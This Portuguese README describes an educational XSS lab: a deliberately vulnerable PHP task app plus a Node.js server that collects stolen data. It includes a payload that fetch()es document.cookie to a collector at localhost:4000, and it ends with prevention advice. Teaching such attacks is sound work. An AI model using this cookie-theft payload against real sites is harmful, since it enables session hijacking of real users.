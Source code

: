 # Simular Ataque XSS

Este projeto é uma demonstração prática de como um **ataque XSS (Cross-Site Scripting)** pode capturar dados sensíveis, como informações de usuários, por meio de vulnerabilidades em aplicações web. Ele é composto por dois servidores:

1. **Servidor Base**: Simula uma aplicação vulnerável que permite o cadastro de usuários, login e a adição de tarefas.
2. **Servidor de Banco**: Um servidor que coleta informações enviadas por meio de requisições maliciosas (simulação de ataque).

---

## Requisitos

- **XAMPP** ou **WAMP Server** (para configurar o Servidor Base)
- **Node.js** (para rodar o Servidor de Banco)
- Navegador para acessar o localhost

---

## Estrutura do Projeto

```
Simular_Ataque_XSS/
├── Servidor_Base/
│   ├── database.php        # Configuração do banco de dados para o sistema de tarefas
│   ├── index.php           # Página inicial com listagem de tarefas
│   ├── login.php           # Página de login
│   ├── logout.php          # Gerencia a saída do usuário
│   ├── register.php        # Página de registro de novos usuários
├── Servidor_de_Banco/
│   ├── coleta.js           # Servidor Node.js para capturar informações via POST
│   ├── dados.txt           # Arquivo onde os dados coletados são armazenados
│   ├── package.json        # Configurações do Node.js
│   ├── package-lock.json   # Dependências do Node.js
│   ├── Script_de_Ataque.js # Simulação de ataque XSS
```

---

## Configuração do Projeto

### **1. Configurar o Servidor Base**

1. Certifique-se de que o **XAMPP** ou **WAMP Server** está instalado.
2. Copie a pasta `Servidor_Base` para o diretório **raiz do servidor web**:
   - **XAMPP:** Cole a pasta em `C:\xampp\htdocs`.
   - **WAMP:** Cole a pasta em `C:\wamp\www`.
3. Inicie o servidor web:
   - **XAMPP:** Abra o painel de controle do XAMPP e inicie o **Apache**.
   - **WAMP Server:** Clique no ícone do WAMP no tray e selecione "Start All Services".
4. No navegador, acesse `http://localhost/Servidor_Base/`.

Agora você poderá interagir com a aplicação web.

---

### **2. Configurar o Servidor de Banco**

1. Certifique-se de que o **Node.js** está instalado na sua máquina.
2. Navegue até a pasta `Servidor_de_Banco` no terminal:
   ```bash
   cd Servidor_de_Banco
   ```
3. Instale as dependências necessárias:
   ```bash
   npm install
   ```
4. Inicie o servidor:
   ```bash
   node coleta.js
   ```
5. O servidor estará rodando em `http://localhost:4000/`.

---

## Como Funciona

### **Passo 1: Registrar um Usuário**
1. Acesse `http://localhost/Servidor_Base/register.php`.
2. Cadastre um novo usuário com nome, email e senha.
3. Faça login na aplicação.

### **Passo 2: Adicionar Tarefas**
1. Após o login, você será redirecionado para a página principal (`index.php`).
2. Adicione algumas tarefas para simular dados no sistema.

### **Passo 3: Executar o Script de Ataque**
1. Edite o arquivo `Script_de_Ataque.js` em `Servidor_de_Banco` (se necessário).
2. O script captura os cookies do navegador e envia para o **Servidor de Banco**.
3. Rode o script em um ambiente onde a aplicação esteja carregada.

### **Passo 4: Visualizar os Dados Roubados**
1. No terminal onde o servidor `coleta.js` está rodando, os dados capturados serão salvos no arquivo `dados.txt`.
2. Abra o arquivo `dados.txt` para visualizar as informações (como cookies ou outras informações sensíveis).

---

## Exemplo de Requisição Maliciosa

O arquivo `Script_de_Ataque.js` pode conter um código semelhante ao abaixo para simular o ataque:

```javascript
<script>
  fetch('http://localhost:4000/collect',
    { method: 'POST', headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ cookies: document.cookie })
  });
</script>

```

Esse código é executado no navegador da vítima e envia os cookies da sessão para o Servidor de Banco (`http://localhost:4000/`).

---

## Importante

Este projeto foi criado **apenas para fins educacionais** e demonstra como proteger sistemas contra ataques XSS. Não utilize este conhecimento para fins maliciosos.

### **Como Prevenir Ataques XSS**
- **Sanitize as entradas de usuário:** Use funções como `htmlspecialchars()` no PHP para escapar caracteres perigosos.
- **Valide todas as entradas:** Certifique-se de que os dados do usuário não contêm scripts ou código malicioso.
- **Utilize CSP (Content Security Policy):** Restrinja a execução de scripts desconhecidos no navegador.
- **Escapando Saídas:** Nunca confie em dados enviados por usuários antes de exibi-los.

---

### Licença

Este projeto é distribuído sob a licença [MIT](https://opensource.org/licenses/MIT). Sinta-se livre para modificá-lo e usá-lo, mas sempre com ética e responsabilidade.
